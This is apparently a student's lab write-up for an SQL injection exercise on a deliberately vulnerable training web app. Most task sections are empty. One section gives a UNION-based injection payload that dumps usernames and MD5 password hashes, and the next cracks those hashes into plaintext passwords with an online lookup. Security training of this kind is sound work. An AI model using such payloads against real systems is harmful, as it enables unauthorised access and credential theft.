







# SQL Injection

## Task a


## Task b


## Task c



## Task d



## Task e



## Task f


The `user` column stores users, while the `password` column stores passwords.


## Task g
```sql
%' and 1=0 union select null, concat(user,0x0a,password) from users #
```


The users and their passwords are:
```
user	->	password
======================
admin	->	5f4dcc3b5aa765d61d8327deb882cf99
gordonb	->	e99a18c428cb38d5f260853678922e03
1337	->	8d3533d75ae2c3966d7e0d4fcc69216b
pablo	->	0d107d09f5bbe40cade3de5c71e9e9b7
smithy	->	5f4dcc3b5aa765d61d8327deb882cf99
```


## Task h
The passwords can be decrypted using https://crackstation.net/.
They are:
```
user	->	password
======================
admin	->	password
gordonb	->	abc123
1337	->	charley
pablo	->	letmein
smithy	->	password
```